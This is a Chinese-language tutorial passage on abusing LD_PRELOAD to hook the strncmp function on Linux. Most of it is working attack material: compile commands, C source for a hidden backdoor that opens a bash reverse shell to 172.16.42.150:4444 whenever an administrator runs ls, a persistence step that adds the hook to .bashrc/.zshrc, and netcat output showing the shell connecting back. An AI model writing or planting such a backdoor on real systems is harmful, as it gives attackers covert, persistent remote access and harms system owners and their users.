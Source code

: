 编译

```
gcc -shared -fPIC hook_strncmp.c -o hook_strncmp.so
```

执行

```
[root@vuln /tmp]# export LD_PRELOAD=$PWD/hook_strncmp.so
[root@vuln /tmp]# ls
uid=0(root) gid=0(root) 组=0(root)
hook_strcmp.c  hook_strcmp.so  hook_strncmp.c  hook_strncmp.so  passcheck  passcheck.c
[root@vuln /tmp]#
```

利用这种思路，我们可以制作一个隐藏得 Linux 后门，比如当管理员执行 `ls` 命令时会反弹一个 Shell：

- hook_strncmp.c

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("bash -c 'bash -i >& /dev/tcp/172.16.42.150/4444 0>&1'");
}

int strncmp(const char *__s1, const char *__s2, size_t __n) {    // 这里函数的定义可以根据报错信息进行确定
    if (getenv("LD_PRELOAD") == NULL) {
    	return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```

编译：

```
gcc -shared -fPIC hook_strncmp.c -o hook_strncmp.so
```

然后在 `.bashrc` 中写入，我这里用的是zsh，所以写入了.zshrc：

```
export LD_PRELOAD=/tmp/hook_strncmp.so
```

执行ls成功收到了shell

```
[root@debian ~]# nc -lvvp 4444
listening on [any] 4444 ...
172.16.42.151: inverse host lookup failed: Unknown host
connect to [172.16.42.150] from (UNKNOWN) [172.16.42.151] 4124
```

